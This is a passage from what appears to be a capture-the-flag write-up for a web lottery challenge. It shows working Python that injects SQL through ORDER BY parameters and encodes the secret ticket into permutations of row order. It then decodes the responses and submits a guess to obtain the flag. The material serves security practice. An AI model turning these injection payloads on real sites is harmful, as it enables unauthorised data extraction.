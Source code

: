 ```python
```

To decode a number retrieved from the server, we figure out which row was moved where and plug an array of that into the `decode` function:

```python
def sqldecode(r, n, m):
  s = sorted(list(map(lambda x:(r.index(x), x), m)), key=lambda x:x[0])
  encoded = []
  for t in m:
    encoded.append([i[1] for i in s].index(t))
  encoded = tuple(encoded)
  return decode(encoded, n)
```

`r` is the server response, `n` is the number of rows, and `m` is an array the of tickets in their original order.

#### Exfiltration

We can now transmit 4 numbers in the ranges `[0,9!)`, `[0,8!)`, `[0,7!)`, and `[0,4!)`. To get the possibilities for the winning lottery ticket, we convert it to a base36 number and use each table to get a range of possible values.

We want to divide the number so that it fits in the range of the first table, `[0,8!)`. The maximum value is `36**12 - 1` (`ZZZZZZZZZZZZ`), so we take that and divide it by `8!`:

```python
>>> ceil((36**12 - 1)/fac(8))
117519378430596
```

Our first piece of data we get is which interval of size 117519378430596 the winning ticket lies in. We then take the winning number modulo 117519378430596, and split that into intervals that give indices up to the size of our next table, `9!`. This process is repeated for each table until we narrow it down to 2,677 values and guess one of them.

A couple helper functions are defined to construct the queries and URL parameters:

```python
param = lambda q: f"winner` IS NOT NULL, {q} -- "
num = lambda m1,m2,m3,d: f"(MOD(MOD(MOD(CAST(CONV(@lotto, 36, 10) AS UNSIGNED), {m1}),{m2}),{m3}) DIV {d})"
```

And we make a guess and hopefully get the flag:

```python
rs = requests.session()
r = rs.get(url, params={
    "order0": param(sqlencode(num(36**12, 36**12, 36**12, 117519378430596), 8, march)),
    "order1": param(sqlencode(num(36**12, 36**12, 117519378430596, 323851903), 9, april)),
    "order2": param(sqlencode(num(36**12, 117519378430596, 323851903, 64257), 7, may)),
    "order3": param(sqlencode(num(117519378430596, 323851903, 64257, 2678), 4, june))
})
r1 = sqldecode(r.text, 8, marcht)
r2 = sqldecode(r.text, 9, aprilt)
r3 = sqldecode(r.text, 7, mayt)
r4 = sqldecode(r.text, 4, junet)
guess = 117519378430596*r1 + 323851903*r2 + 64257*r3 + 2678*r4 + 100
r = rs.post(url, data={"code":base36encode(guess).zfill(12)})
if "CTF" in r.text:
    print(r.text)
```
